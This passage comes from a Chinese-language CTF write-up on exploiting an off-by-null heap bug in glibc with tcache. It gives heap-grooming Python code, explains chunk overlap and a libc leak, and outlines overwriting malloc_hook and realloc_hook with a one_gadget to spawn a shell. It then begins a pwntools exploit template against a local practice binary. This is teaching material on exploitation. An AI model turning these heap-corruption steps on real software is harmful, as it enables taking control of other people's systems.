 OK现在我们可以开始编，写我们的EXP了。按照前面分析的思路，我们首先需要将0x90和0x1b0两个堆块填满。当tcache被填满后再申请堆块的话，将会从tcahe里面分配，这样分配到的ABC可能并不连续，所以我们先提前将ABC三个堆块分配好，再填满0x90和0x1b。因为又tcache来分隔C堆块和TOP chunk，所以这里我们就不需要D堆块了。

````python
add(0,0x80) #A
add(1,0x18) #B
add(2,0xf0) #C
for i in range(7):
	add(i+3,0x80)

for i in range(7):
	delete(i+3)
	add(i+3,0xf0)

for i in range(7):
	delete(i+3)
````

![image-20200710222930514](https://i.loli.net/2020/07/13/21fJQHeuDh4OFkp.png)

现在让我们来释放A堆块，并用B堆块修改C堆块的大小。

![image-20200710222226781](https://i.loli.net/2020/07/13/icVR317DIUMoLk2.png)

接下来我们释放C堆块，然后C堆块将会和AB堆块发生合并。（这里的检测机制和2.23一样我就不赘述了）

![image-20200710222949822](https://i.loli.net/2020/07/13/aA7lFghpjXPLGKN.png)

OK成功合并，off by null漏洞利用成功，接下来的就是获取Shell了，思路和2.23一样。

+ 分配0x80大小堆块，将unsorted bin的地址放入B堆块中。（这里需要先将tcache中的堆块分配完）
+ 泄漏libc地址
+ 再分配0x20大小堆块，从而有两个B堆块
+ 释放其中一个修改fd为realloc_hook
+ 修改malloc_hook为realloc，realloc_hook为onegadget从而获得shell

```python
from pwn import *
from LibcSearcher import *
if args['REMOTE']:
	sh=remote()
else:
	sh=process('./vuln')

if args['I386']:
	context.arch='i386'
else:
	context.arch='amd64'

if args['DEBUG']:
	context.log_level='debug'
s      = lambda data               :sh.send(data) 
sa      = lambda delim,data         :sh.sendafter(delim, data)
sl      = lambda data               :sh.sendline(data)
sla     = lambda delim,data         :sh.sendlineafter(delim, data)
sea     = lambda delim,data         :sh.sendafter(delim, data)
r      = lambda numb=4096          :sh.recv(numb)
ru      = lambda delims, drop=True  :sh.recvuntil(delims, drop)
info_addr = lambda tag, addr        :sh.info(tag +': {:#x}'.format(addr))
itr     = lambda                    :sh.interactive()
gdba	= lambda command=''			:gdb.attach(sh,command)

def choice(elect):
	sh.recvuntil('>')
	sh.sendline(str(elect))

```